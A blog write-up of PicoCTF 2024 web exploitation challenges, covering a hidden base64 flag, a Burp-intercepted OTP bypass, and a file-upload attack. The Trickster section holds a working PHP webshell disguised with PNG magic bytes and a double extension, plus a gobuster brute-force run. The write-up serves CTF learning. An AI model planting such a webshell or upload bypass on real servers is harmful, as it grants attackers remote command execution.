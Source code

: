 +++
title = "PicoCTF 2024: Web Exploitation"

[taxonomies]
tags = ["picoctf", "coding", "ctf", "web"]
+++

I have considered myself... practically done with the Forensics category for PicoCTF 2024. It truly is a guessfest whether or not your first solution is correct - I can't believe throwing out a random `find` into the command-line actually gave me the answer for [Mob psycho](picoctf-2024-forensics#mob-psycho)...

Well, here we go again, this time in my arguably best non-forensics category - Web Exploitation! Once again, I will be going through each of the challenges and solving them, while writing out my thought process for each challenge.

> Same thing as Forensics, this blogpost will describe the challenges and give the solutions to them - but I will not be giving out the flag in its entirety. All solutions with the flag in plain text will have the flag replaced by `picoCTF{flag}`.

1. Table of Contents
{:toc}

# WebDecode

> **Difficulty**: Easy \
> **Categories**: none

Well... We're thrown straight into a website that looks *really* suspicious. I'll perform due dilligence and... inspect the site HTML. Nothing in the home page, so I'll go into the About page.

And upon loading the About page, wow, the **very loud** text saying "Try inspecting the page!! You might find it there" really confirms that I'm getting somewhere.

Hitting F12 to open up my DevTools and I immediately see a weird section of HTML:

```html
<section class="about" notify_true="cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9">
   <h1>
    Try inspecting the page!! You might find it there
   </h1>
   <!-- .about-container -->
  </section>
```

That string looks very suspicious. One quick run into the base64 decoder again, using:

```
$ echo "cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9" | base64 -d
```

Aaaaaaaaand we've got it! Very simple challenge.

# Unminify

> **Difficulty**: Easy \
> **Categories**: obfuscation, minification

Yet another webpage, similar to [WebDecode](#webdecode) above. Once again, let's open up our DevTools and scan through the HTML.

It didn't take long before I reached this section of HTML:

```html
<p class="picoCTF{flag}"></p>
```

That's our flag, time to copy it and submit it.

# Bookmarklet

> **Difficulty**: Easy \
> **Categories**: obfuscation, browser

The website gives us another site, in the same template as [Unminify](#unminify). It also gives us a JavaScript bookmarklet to run as well. As it describes itself, it's a bookmarklet - very similar to my Kamaitachi maimai DX [import script](https://github.com/j1nxie/kt-maimaidx-site-importer). Let's create a quick bookmark and throw this in as the URL.

As soon as we click the bookmarklet, the flag shows up as an alert!

# IntroToBurp

> **Difficulty**: Easy \
> **Categories**: none

Well, as described by the challenge name, we'll need [BurpSuite](https://portswigger.net/burp) for this. Let's pull up BurpSuite and open the website in BurpSuite's browser (Proxy > Intercept > Turn on Intercept).

We see a little form that tells us to put our information in, and being the sane person that I am, I will put in my fully 100% real information into this.

![Screenshot of IntroToBurp form](/image/picoctf/introtoburp1.png)

Hitting the Register button, while forwarding the packet as-is to the server, brings us to another form.

![Screenshot of IntroToBurp 2FA](/image/picoctf/introtoburp2.png)

It's asking for an OTP code... but I haven't received anything. Weird. Let's try throwing in a random string... like `a` and submit it. BurpSuite nicely catches that request for us, and we can see the form data `otp=a` in the raw request packet. Let's try... removing that and see what happens!

After removing the OTP code from the form data, we got ourselves a nice malformed... well... form data sent over the wire. Let's see how the server reacts... And we got our flag!

# Trickster

> **Difficulty**: Medium \
> **Categories**: none

This is actually... a pretty tough one if you don't know where to immediately start. I opened up the site that the challenge gave, and there was no clear entry points to... anything, really. Uploading a PNG only gets a result string shown to you, like below.

![Screenshot of Trickster form](/image/picoctf/trickster1.png)

I tried accessing a random directory, e.g. `atlas.picoctf.net:<port>/what`, and I got a 404 Not Found. That's expected. I also see this is running Apache, which means... there's PHP. But we haven't seen any clear entry points to get an arbitrary PHP script running here.

Let's get back to the root site. Sitting here won't do us any good, I guess it's time to use some tools? Using `gobuster`, and running a brute-force for URIs like such:

```
$ gobuster dir --url http://atlas.picoctf.net:<port>/ --wordlist /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://atlas.picoctf.net:<port>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:49884/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We're seeing `robots.txt` that we can access, and `/uploads` being redirected to the root directory - looks like there's gonna be an accessible folder there. Let's try accessing `robots.txt`...

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

So the *very root* directory of `/uploads/` is not crawled, along with the file `instructions.txt`. Let's try looking at `instructions.txt`.

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Interesting... It looks like this doesn't do much validation on the PNG files themselves, other than checking for the `.png` extension *existing* in the file name, and the first few bytes containing `PNG`. I guess the uploaded files will also be stored under `/uploads/<file_name>`? That's an entry for our PHP now, no?

I will modify [easy-simple-php-webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) a tiny bit, so it has the magic bytes for PNG at the top.

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Along with that, I'll add the `.png` extension, saving it as `webshell.png.php` so it passes the extension check. Let's try uploading this. The form accepted it without any complaints! Time to try accessing this webshell under `/uploads/webshell.png.php`.

We're in. Let's try running `ls ../` to see the root directory. There's a weird file with the name `MQZWCYZWGI2WE.txt`. A simple `cat` on this file finally gives us the flag we're looking for!

# Afterwords

The final challenge of this category - titled "elements", honestly deserves a post of its own. It's of another level, and I've never seen myself so stuck on one. With that being said, that's practically all the solvable web challenges for PicoCTF 2024 as of writing this post. Thank you all for reading through to the end!
